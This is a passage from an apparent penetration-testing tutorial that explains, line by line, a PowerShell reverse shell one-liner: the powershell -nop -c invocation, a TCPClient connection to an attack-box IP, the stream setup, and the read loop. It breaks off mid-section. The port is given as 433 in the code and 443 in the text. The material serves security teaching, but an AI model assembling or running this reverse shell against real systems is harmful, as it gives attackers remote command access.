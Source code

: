 ```cmd-session
powershell -nop -c

```

Executes `powershell.exe` with no profile ( `nop`) and executes the command/script block ( `-c`) contained in the quotes. This particular command is issued inside of command-prompt, which is why PowerShell is at the beginning of the command. It's good to know how to do this if we discover a Remote Code Execution vulnerability that allows us to execute commands directly in `cmd.exe`.

#### Binding A Socket

```cmd-session
"$client = New-Object System.Net.Sockets.TCPClient(10.10.14.158,433);

```

Sets/evaluates the variable `$client` equal to ( `=`) the `New-Object` cmdlet, which creates an instance of the `System.Net.Sockets.TCPClient` .NET framework object. The .NET framework object will connect with the TCP socket listed in the parentheses `(10.10.14.158,443)`. The semi-colon ( `;`) ensures the commands & code are executed sequentially.

#### Setting The Command Stream

```cmd-session
$stream = $client.GetStream();

```

Sets/evaluates the variable `$stream` equal to ( `=`) the `$client` variable and the .NET framework method called [GetStream](https://docs.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient.getstream?view=net-5.0) that facilitates network communications. The semi-colon ( `;`) ensures the commands & code are executed sequentially.

#### Empty Byte Stream

```cmd-session
[byte[]]$bytes = 0..65535|%{0};

```

Creates a byte type array ( `[]`) called `$bytes` that returns 65,535 zeros as the values in the array. This is essentially an empty byte stream that will be directed to the TCP listener on an attack box awaiting a connection.

#### Stream Parameters

```cmd-session
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)

```

Starts a `while` loop containing the `$i` variable set equal to ( `=`) the .NET framework [Stream.Read](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream.read?view=net-5.0) ( `$stream.Read`) method. The parameters: buffer ( `$bytes`), offset ( `0`), and count ( `$bytes.Length`) are defined inside the parentheses of the method.

#### Set The Byte Encoding

